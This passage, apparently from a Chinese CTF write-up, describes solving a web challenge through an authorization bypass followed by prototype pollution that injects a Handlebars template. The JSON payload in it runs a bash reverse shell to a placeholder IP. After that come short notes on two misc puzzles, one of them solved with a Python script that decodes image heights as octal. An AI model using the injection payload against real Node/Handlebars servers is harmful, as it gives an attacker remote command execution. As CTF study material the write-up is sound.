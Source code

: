 先要越权，然后改 style SSTI 就行

[https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md#handlebars---command-execution](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md#handlebars---command-execution)

```bash
app_1  | Handlebars: Access has been denied to resolve the property "style" because it is not an "own property" of its parent.
app_1  | You can add a runtime option to disable the check or this warning:
app_1  | See https://handlebarsjs.com/api-reference/runtime-options.html#options-to-control-prototype-access for details
```

可以 pp arguments + dynamic import

Payload:

```json
{"username": "1", "password": "1", "payload": [1, {"payload": {"__proto__": {"style":"{{#with \"s\" as |string|}}\n{{#with \"e\"}}\n  {{#with split as |conslist|}}\n    {{this.pop}}\n    {{this.push (lookup string.sub \"constructor\")}}\n    {{this.pop}}\n    {{#with string.split as |codelist|}}\n      {{this.pop}}\n      {{this.push \"return import('child_process').then(m=>m.execSync('bash -c \\\"bash -i >& /dev/tcp/xxx.xxx.xxx.xxx/xxxx 0>&1\\\"'))\"}}\n      {{this.pop}}\n      {{#each conslist}}\n        {{#with (string.sub.apply 0 codelist)}}\n          {{this}}\n        {{/with}}\n      {{/each}}\n    {{/with}}\n  {{/with}}\n{{/with}}\n{{/with}}","allowedProtoMethods":{"split":true,"pop":true,"push":true,"sub":true,"apply":true,"keys":true,"constructor":true,"call":true,"style":true}}}}]}
```

反弹出来 catflag 就行了

# Misc

## 签到

base64 + 凯撒

## pintu

统计一下图片的高度，发现有 40,60,61,62,63,64,65,66,67,70,71

跳过了 68 和 69，结合提示 8->10，联想到是 8 进制

统计一下高度输出

```python
from PIL import Image

count = 0
a = []
for i in range(1,4704):
    img = Image.open("./pintu/{}.png".format(i))
    width,height=img.size
    a.append(chr(int(str(height),8)))
print("".join(a))
```
